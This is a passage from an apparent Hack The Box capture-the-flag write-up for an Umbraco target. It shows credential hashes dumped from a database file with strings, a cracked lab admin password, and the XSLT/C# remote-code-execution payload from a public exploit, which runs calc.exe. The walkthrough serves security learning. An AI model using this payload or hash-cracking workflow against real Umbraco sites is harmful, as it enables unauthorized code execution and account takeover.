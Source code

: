 Lets open up the the data base with a normal text editor. And I see a lot of readable text mixed with unreadble ones. Lets use the best tool there is i.e STRINGS.

{%highlight bash%}
strings Umbraco.sdf | more
Administratoradmindefaulten-US
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32
  --snip--
{%endhighlight%}

How considerate of them to also tell us about the hashing algorithm used. So head on over to [crackstation](https://crackstation.net) and copy all the strings in those lines that looked like a hash to me. I see that the string after "adminadmin@htb.local" was a hash and were crackable. 

<img src="/images/remote/cracked.png" />

So we have the password and all that is left is the username. Looking closely at the login form it says that the username is an email. And we do see some email format in the database. After some hit and trial I had a successful login with the credentials "admin@htb.local" and "baconandcheese".

So I looked around the admin pannel and didn't waste too much time there because I already had a lead to follow. Yes we are now going to use the exploit that we found. 

This is the payload part of that python based exploit.
{%highlight python%}
# Execute a calc for the PoC
payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
{ string cmd = ""; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "calc.exe"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet> ';
{%endhighlight%}
